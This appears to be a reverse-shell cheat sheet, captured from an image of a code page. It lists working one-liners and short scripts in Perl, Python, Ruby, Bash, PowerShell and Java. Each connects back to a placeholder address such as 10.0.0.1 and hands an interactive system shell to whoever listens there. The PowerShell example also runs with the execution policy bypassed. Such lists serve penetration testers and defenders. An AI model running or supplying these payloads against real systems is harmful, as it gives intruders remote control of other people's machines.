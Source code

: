 ```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby Reverse Shell

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Bash Reverse Shell

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Powershell Reverse Shell

Create a simple powershell script called `reverse.ps1`:

```powershell
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```

```powershell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### Java Reverse Shell

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
